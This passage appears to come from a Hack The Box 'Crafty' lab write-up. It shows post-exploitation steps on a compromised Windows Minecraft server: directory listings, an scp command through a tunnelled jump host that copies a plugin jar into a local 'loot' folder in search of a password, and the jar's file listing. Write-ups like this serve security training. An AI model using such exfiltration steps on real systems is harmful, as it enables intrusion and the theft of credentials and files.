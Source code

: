 ```bash
-a----       11/14/2023  10:00 PM              2 banned-ips.json
-a----       11/14/2023  11:22 PM              2 ops.json
d-----        2/11/2024   4:06 PM                logs
d-----        2/11/2024  10:22 PM                world
-a----        2/11/2024  10:26 PM            100 usercache.json
```

### Password in plugin jar file

`playercounter-1.0-SNAPSHOT.jar` might be a custom plugin

```bash
PS C:\users\svc_minecraft\server> ls -Force plugins
ls -Force plugins


    Directory: C:\users\svc_minecraft\server\plugins


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/27/2023   2:48 PM           9996 playercounter-1.0-SNAPSHOT.jar
```

Transfer plugin file

```bash
scp -J 127.0.0.1:443 crafty.svc_minecraft.crafty:'C:\\users\\svc_minecraft\\server\\plugins\\playercounter-1.0-SNAPSHOT.jar' ./loot/playercounter-1.0-SNAPSHOT.jar
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Crafty]
└─$ 7z l loot/playercounter-1.0-SNAPSHOT.jar
[...]
   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2023-10-27 06:32:44 D....            0            2  META-INF
2023-10-27 06:32:44 .....           81           81  META-INF/MANIFEST.MF
2023-10-27 06:32:40 .....          109           78  plugin.yml
2023-10-27 06:32:42 D....            0            2  htb
2023-10-27 06:32:42 D....            0            2  htb/crafty
2023-10-27 06:32:42 D....            0            2  htb/crafty/playercounter
2023-10-27 06:32:42 .....         1503          839  htb/crafty/playercounter/Playercounter.class
2023-10-27 06:31:46 D....            0            2  META-INF/maven
2023-10-27 06:31:46 D....            0            2  META-INF/maven/htb.crafty
2023-10-27 06:31:46 D....            0            2  META-INF/maven/htb.crafty/playercounter
2023-10-27 06:31:46 .....         2832          792  META-INF/maven/htb.crafty/playercounter/pom.xml
2023-10-27 06:32:42 .....           65           66  META-INF/maven/htb.crafty/playercounter/pom.properties
2021-02-25 08:55:08 D....            0            2  net
2021-02-25 08:55:08 D....            0            2  net/kronos
2021-02-25 08:55:08 D....            0            2  net/kronos/rkon
2021-02-25 08:55:08 D....            0            2  net/kronos/rkon/core
2021-02-25 08:55:08 .....         2939         1513  net/kronos/rkon/core/Rcon.class
2021-02-25 08:55:08 .....         3356         1713  net/kronos/rkon/core/RconPacket.class
2021-02-25 08:55:08 D....            0            2  net/kronos/rkon/core/ex
2021-02-25 08:55:08 .....          409          255  net/kronos/rkon/core/ex/AuthenticationException.class
2021-02-25 08:55:08 .....          412          264  net/kronos/rkon/core/ex/MalformedPacketException.class
2021-02-25 08:55:02 D....            0            2  META-INF/maven/net.kronos.rkon.core
2021-02-25 08:55:02 D....            0            2  META-INF/maven/net.kronos.rkon.core/rkon-core
2021-02-25 08:55:02 .....         1527          431  META-INF/maven/net.kronos.rkon.core/rkon-core/pom.xml
```